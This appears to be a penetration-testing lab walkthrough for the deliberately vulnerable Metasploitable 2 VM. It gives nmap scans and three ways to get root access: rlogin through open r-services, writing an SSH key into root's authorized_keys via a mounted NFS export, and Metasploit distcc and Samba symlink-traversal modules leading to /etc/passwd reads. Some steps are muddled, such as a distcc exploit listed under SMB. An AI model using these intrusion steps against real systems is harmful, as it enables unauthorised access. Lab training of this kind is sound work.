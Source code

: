 ```yaml
---
title: Metasploitable
published: true
---
```

The following information shows the **Metasploitable walkthrough**

## [](#header-2)Introduction

   Metasploitable is a Linux based operating system that is designed in a vulnerable way so that the pen-testers and ethical hackers can test their skills. There is no security to the server hence it is always better to _run the metasploitable in a virtual environment_, as anyone can logon into it.
  
### [](#header-3)Requirements
  
   1. Download the vulnerable OS from the following link, **[metaploitable_download_link](https://sourceforge.net/projects/metasploitable/files/Metasploitable2/).**
   2. Kali Linux can be downloaded from the link, **[Kali_Linux_download_link](https://www.kali.org/).**
   3. Virtual Environment, here example is shown using VMware Workstation.
   4. Good understanding of Metasploit Framework(MSF).
   5. Linux commands usage.
       Install both the Operating Systems and run it.
      
      **_NOTE: Installation steps of Kali Linux can be found here,[Kali_linux_insatllation_guide](another_page)_.**
      
   When the OSes installed properly, one can encounter as shown in the following image,
   

# [](#header-1) image 
   
   
   Login into the metasploitable terminal, Username and password would be given(commonly, it is msfadmin)
     
   Get the IP address, `# ifconfig`
   Use that IP_address and perform the following steps: 
        
	1. Scanning
        
        2. Vulnerability identification/Enumeration
        
        3. Exploitation and Access Gaining 

# [](#header-1) Network Penetration Testing

# [](#header-1)Step 1: Scanning 
   
   In this we need to find the ports that are open and also services running on that each port using which exploitation is done.

   * Open a terminal in Kali Linux and use **_namp_** to perform the Network Scanning
   * Enter the following command, `# nmap -sS -Pn -n ip_address`
     - by default NMAP scans upto 1000 ports, to scan all the ports use either `-p`- or `-p 1-65535`
     - the above command offers the TCP SYN scan, to scan the UDP ports use `-sU`
     - the command also skips the host discovery(no Ping) and DNS resolution
            
      The results can be similar to the following image,
      
      # [](#header-1) image 
         
        ![](https://assets-cdn.github.com/images/icons/emoji/octocat.png)



# [](#header-1)Step 1: Enumeration

nmap -Pn --script vuln 192.168.1.105

   BOOM!!!!!!!!

# [](#header-1)Step 1: Exploitation and Acess Gaining

   There are various to gain access to the Metasploitable target machine. Lets try them as follows,

**_METHOD 1:_**
   
   Ports 512,513,514 offers the ‘r’ services, it means that remote access can be gained from any host using the IP address.
   
   So open a terminal and type, 
   
   **_# rlogin -l root ip_address_** 	

// if asks for password then probably rsh-client is not installed, else you will be in that target machine.

   **_# apt install rsh-client_**

   now execute **_# rlogin -l root ip_address_** 	

// should work perfectly if that service is open


**_METHOD 2: SSH LOGIN_**

   For this we need to generate the RSA key and kinda have to copy that key to that target machine using rpcbind and NFS (port 2049) mount the NFS export (for exporting), and add our key to the root user account's authorized_keys file.
      
	   **_# apt update

	   # apt install rpcbind nfs-common

	   # rpcinfo -p ip_address

	   # showmount -e ip_address

	   # ssh-keygen	//just press enter for the questions asked for default settings

	   # mkdir /tmp/r00t

	   # mount -t nfs ip_address:/ /tmp/r00t

	   # cat ~/.ssh/id_rsa.pub >> /tmp/r00t/root/.ssh/authorized_keys

	   # umount /tmp/r00t

	   # ssh root@ip_address_**

         
**_METHOD 3: SMB 445_**

   Samba, can also be used as a backdoor to access files that were not meant to be shared when configured with a writeable file share and "wide links" enabled. I used Metasploit Framework to compromise the target.
	
   On msfconsole,
   
   > msf use exploit/unix/misc/distcc_
   
   > set rhost 192.168.214.129
   
   > exploit
   
   On another terminal
   
   # smbclient -L //ip_address
   
   On msfconsole,
    
   > use auxiliary/admin/smb/samba_symlink_traversal

   msf5 auxiliary(admin/smb/samba_symlink_traversal) > set rhost ip_address
   
   msf5 auxiliary(admin/smb/samba_symlink_traversal) > set SMBSHARE tmp
   
   msf5 auxiliary(admin/smb/samba_symlink_traversal) > exploit

   On terminal,
   
   # smbclient  //ip_address/tmp
			// now you will have the smb shell access, try #cd rootfs #cd etc and #more passwd


```
The final element.
```
